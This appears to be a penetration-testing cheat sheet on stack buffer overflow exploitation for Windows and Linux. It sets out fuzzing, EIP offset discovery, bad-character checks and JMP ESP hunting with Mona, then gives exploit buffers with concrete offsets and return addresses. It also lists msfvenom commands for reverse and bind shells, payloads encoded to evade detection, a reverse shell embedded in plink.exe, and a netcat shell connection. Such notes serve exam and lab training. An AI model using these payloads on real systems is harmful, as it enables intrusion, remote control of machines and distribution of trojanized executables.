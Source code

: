 # Buffer overflow \(BOF\)

## \(NEW\)

## Buffer Overflow

1. Determine length of overflow trigger w/ binary search "A"x1000
2. Determine exact EIP with `pattern_create.rb` & `pattern_offset.rb`
3. Determine badchars to make sure all of your payload is getting through
4. Develop exploit
   * Is the payload right at ESP
     * `JMP ESP`
   * Is the payload before ESP
     * `sub ESP, 200` and then `JMP ESP`
     * or
     * `call [ESP-200]`
5. `msfvenom -a x86 --platform windows/linux -p something/shell/reverse_tcp lhost=x.x.x.x lport=53 -f exe/elf/python/perl/php -o filename`
   * Make sure it fits your payload length above
6. Gain shell, local priv esc or rooted already?

## \(OLD\)

## Methodology

1. Investigate the file

   ```
   file
   strings
   ```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

1. Look at the assembly of a function

```
disass main
disass otherfunction
```

1. Look for the flow of the program. Look for cmp

2. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

1. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```

## \(NEW\)

### Windows Buffer Overflows

* Controlling EIP

```
locate pattern_create
pattern_create.rb -l 2700
locate pattern_offset
pattern_offset.rb -q 39694438
```

* Verify exact location of EIP - \[\*\] Exact match at offset 2606

  ```
  buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
  ```

* Check for “Bad Characters” -

  ```
  Run multiple times 0x00 - 0xFF
  ```

* Use Mona to determine a module that is unprotected

* Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

* Use NASM to determine the HEX code for a JMP ESP instruction

```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

JMP ESP  
00000000 FFE4 jmp esp
```

* Run Mona in immunity log window to find \(FFE4\) XEF command

  ```
  !mona find -s "\xff\xe4" -m slmfc.dll  
  found at 0x5f4a358f - Flip around for little endian format
  buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
  ```

* MSFVenom to create payload

  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  ```

* Final Payload with NOP slide  
  ```
  'buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
  ```
* Create a PE Reverse Shell  
  ```
  msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
  -f  
  exe -o shell\_reverse.exe
  ```

* Create a PE Reverse Shell and Encode 9 times with
  Shikata\_ga\_nai
  ```
  msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
  -f  exe -e x86/shikata\_ga\_nai -i 9 -o shell\_reverse\_msf\_encoded.exe
  ```

* Create a PE reverse shell and embed it into an existing
  executable  
  ```
  msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f  exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o   shell\_reverse\_msf\_encoded\_embedded.exe
  ```

* Create a PE Reverse HTTPS shell  
  ```
  msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
      LPORT=443 -f exe -o met\_https\_reverse.exe
  ```

### Linux Buffer Overflows

* Run Evans Debugger against an app

  ```
      edb --run /usr/games/crossfire/bin/crossfire
  ```

* ESP register points toward the end of our CBuffer

  ```
      add eax,12  
      jmp eax  
      83C00C add eax,byte +0xc  
      FFE0 jmp eax
  ```

* Check for “Bad Characters” Process of elimination -

  ```
  Run multiple times 0x00 - 0xFF
  ```

* Find JMP ESP address  
  ```
      "\\x97\\x45\\x13\\x08" \# Found at Address 08134597
  ```
* crash = "\x41" \* 4368 + "\x97\x45\x13\x08" +"\x83\xc0\x0c\xff\xe0\x90\x90"

* msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata\_ga\_nai

* Connect to the shell with netcat:

  ```
  nc -v $ip 4444
  ```




